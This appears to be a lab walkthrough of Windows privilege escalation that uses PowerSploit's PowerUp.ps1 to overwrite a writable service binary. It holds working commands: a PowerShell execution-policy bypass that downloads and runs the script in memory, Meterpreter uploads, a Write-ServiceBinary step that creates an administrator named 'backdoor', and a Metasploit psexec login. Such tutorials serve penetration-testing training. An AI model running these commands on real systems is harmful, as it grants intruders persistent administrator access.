


Create a new Admin User
3. Run PowerUp.ps1 script and create a new Administrator
account Site:
https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc
*If we want we can also upload a payload(created with msfvenom) on the target machine
◇
Alternative 1:
One-Line without download PowerUp.ps1 on the target machine <---------
C:\Users\danie\Desktop> powershell.exe -exec bypass -Command IEX(New-Object Net.WebClient).downloadstring('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1 ');Invoke-AllChecks;Write-ServiceBinary -Name 'AxAutoMntSrv' -Path 'C:\Program Files\Alcohol Soft\Alcohol.exe' -UserName backdoor -Password Password123!
◇
Alternative 2: Upload PowerUp.ps1 and run it with Powershell on the target
machine Download locally only the script file PowerUp.ps1 that we need
root@kali:/home/kali/Desktop# wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
meterpreter > upload /home/kali/Desktop/PowerUp.ps1 . #upload PowerUp.ps1 on the target machine in the current folder of the target machine (.)
meterpreter > load powershell #load powershell extension
meterpreter > powershell_shell #run powershell
PS > pwd
PS > Import-Module .\PowerUp.ps1
PS > invoke-AllChecks #runs all current escalation checks and returns a report
PS > Write-ServiceBinary -Name 'AxAutoMntSrv' -Path 'C:\Program Files\Alcohol Soft\Alcohol.exe' -UserName backdoor -Password Password123! #add Alcohol.exe
This writes a file called C:\Program Files\Alcohol Soft\Alcohol.exe' that will be run with
LocalSystem privileges when the service restarts.
Writing the malicious file won't interrupt the service
if it's running, but when the service restarts, Windows will execute the malicious file instead of the
legitimate file
At the next restart of the service AxAutoMntMntSrv or at a restart of the target computer a
new Administrator account will be created with the credential spcified:
username: “backdoor”
password:
"Password123!"
◇
Alternative 3: Upload PowerUp.ps1 without start a shell
Powershell:
Download locally only the script file PowerUp.ps1 that we need
root@kali:/home/kali/Desktop# wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
meterpreter > upload /home/kali/Desktop/PowerUp.ps1 . #upload PowerUp.ps1 on the target machine in the current folder of the target machine (.)
meterpreter > shell
C:\Users\danie\Desktop> powershell.exe -exec bypass -Command "& {Import-Module .\PowerUp.ps1; Invoke-AllChecks}"
C:\Users\danie\Desktop> powershell.exe -exec bypass -Command "& {Import-Module .\PowerUp.ps1;Write-ServiceBinary -Name 'AxAutoMntSrv' -Path 'C:\Program Files\Alcohol Soft\Alcohol.exe' -UserName backdoor -Password Password123!}"
4. We can restart the service, in this way the new Administrator “backdoor” is created
C:\Users\danie\Desktop> sc start <service>
example: To start the service as the login user we need that
CanRestart on the PowerUp.ps1 output is “True”. In our scenario is False so we
cannot do that, only for demonstration in the examples below we have started the service as Administrator. In a Real
Testing anyway this wouldn't make much sense because become “Administrator” is our final purpose of this
exploit!
sc start AxAutoMntSrv5. Check if the new account is been
created
C:\Users\danie\Desktop> net localgroup Administrators
6. To login
now as Administrator "backdoor" user we can use
msf > use exploit/windows/smb/psexec
msf > set RHOSTS 192.168.1.120
msf > set SMBPass Password123!
msf > set SMBUser backdoor
msf > run
7. Clean Up
(optional)
del "C:\Program Files\Alcohol Soft\Alcohol.exe"